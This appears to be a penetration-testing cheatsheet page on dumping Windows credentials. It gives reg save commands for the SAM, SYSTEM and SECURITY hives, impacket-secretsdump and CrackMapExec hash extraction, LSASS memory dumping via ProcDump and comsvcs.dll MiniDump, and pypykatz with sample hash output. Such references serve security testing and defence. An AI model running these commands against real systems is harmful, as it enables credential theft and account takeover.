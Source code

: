 # Windows

## SAM

You need to have administrator privileges to access the SAM Registry hive.

### Registry Hives

| Registry Hive | Description |
|-|-|
| `hklm\sam` | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system` | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.

### Dumping the SAM Registry Hive

Dump the SAM Registry hive using the `reg` command and transfer the files to your attacker machine.:

```batch
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

Use `impacket-secretsdump` to extract the hashes from the SAM Registry hive:

```bash
impacket-secretsdump -sam sam -system system -security security LOCAL
```

### Dumping SAM Remotely

Dump it using `CrackMapExec`:

```bash title="Dump SAM with CrackMapExec"
cme smb <ip> -u <username> -p <password> --sam
```

:::tip

The output format is `username:RID:LMHASH:NTHASH`.

:::

### Cracking the Hashes

Navigate to the [CrackMapExec Commands Cheatsheet](/commands-cheatsheet/crackmapexec#brute-forcing-credentials).

## LSASS

LSASS (Local Security Authority Subsystem Service) in Windows is a process responsible for enforcing security policies, managing user authentication, and auditing system events.

### Dumping LSASS Memory

LSASS memory dumps can pose serious security risks as they may contain sensitive information. This can include plaintext passwords, hash values, and other authentication details used in the system.

#### Task Manager

The easiest way to dump LSASS memory is to use Task Manager. You'll need UI access to the machine to do this.

1. Open Task Manager
2. Find the `Local Security Authority Process`
3. Right-click on the process and select `Create dump file`

![Task Manager](taskmanagerdump.png)

#### ProcDump

[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) is a command-line utility that can be used to create memory dumps of processes.

:::caution ProcDump

You'll need to download ProcDump on the target machine to use it.

:::

```batch title="Using ProcDump to Dump LSASS Memory"
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

You can also avoid reading the `lsass.exe` process by dumping a cloned process instead.

```batch title="Using ProcDump to Dump LSASS Memory (Cloned Process)"
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

#### comsvcs.dll

```batch title="Using comsvcs.dll to Dump LSASS Memory"
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

You can also use the PowerShell variant of this command.

```powershell title="Using comsvcs.dll to Dump LSASS Memory (PowerShell)"
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

### Extracting Credentials

#### Pypykatz

This is the Linux version of [Mimikatz](https://github.com/gentilkiwi/mimikatz).

```bash
pypykatz lsa minidump <lsass dump file>
```

```bash title="Pypykatz Example"
pypykatz lsa minidump lsass.dmp

...SNIP...
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
...SNIP...
```